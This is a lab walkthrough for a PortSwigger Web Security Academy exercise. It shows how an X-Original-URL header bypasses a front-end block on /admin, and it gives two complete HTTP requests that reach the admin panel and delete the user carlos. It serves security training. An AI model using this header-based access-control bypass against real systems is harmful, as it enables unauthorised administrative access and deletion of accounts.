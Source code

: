 # [Lab 5: URL-based access control can be circumvented](https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented)

---

## Description

This website has an unauthenticated admin panel at `/admin`, but a front-end system has been configured to block external access to that path. However, the back-end application is built on a framework that supports the `X-Original-URL` header.

To solve the lab, access the admin panel and delete the user `carlos`.

---

## Solution

The `X-Original-URL` header specifies the actual URL path being requested. If an application is sensitive to this header, it will ignore the actual URL path being requested and use this header value instead.

The application restricts access to the `/admin` URL. However, by using the `X-Original-URL: /admin` header, it is possible to bypass this restriction and access the admin panel unauthenticated.

```http
GET / HTTP/1.1
Host: ace81f771e75622280e1c59c00660090.web-security-academy.net
Cookie: session=ajoWMof55qCVTp4YPDhjfPDmIswKS2Cc
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Referer: https://ace81f771e75622280e1c59c00660090.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
X-Original-URL: /admin
```

![](images/Pasted%20image%2020210922195629.png)

To delete `carlos`, the browser generates a `GET` request to the `/admin/delete?username=carlos` path. Use the `X-Original-URL` header to navigate to this path as well.

```http
GET /?username=carlos HTTP/1.1
Host: ace81f771e75622280e1c59c00660090.web-security-academy.net
Cookie: session=ajoWMof55qCVTp4YPDhjfPDmIswKS2Cc
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Referer: https://ace81f771e75622280e1c59c00660090.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
X-Original-URL: /admin/delete
```

Note that the `username=carlos` URL parameter remains in the original path and not in the `X-Original-URL` header value. Submitting this request deletes `carlos` and completes the challenge.
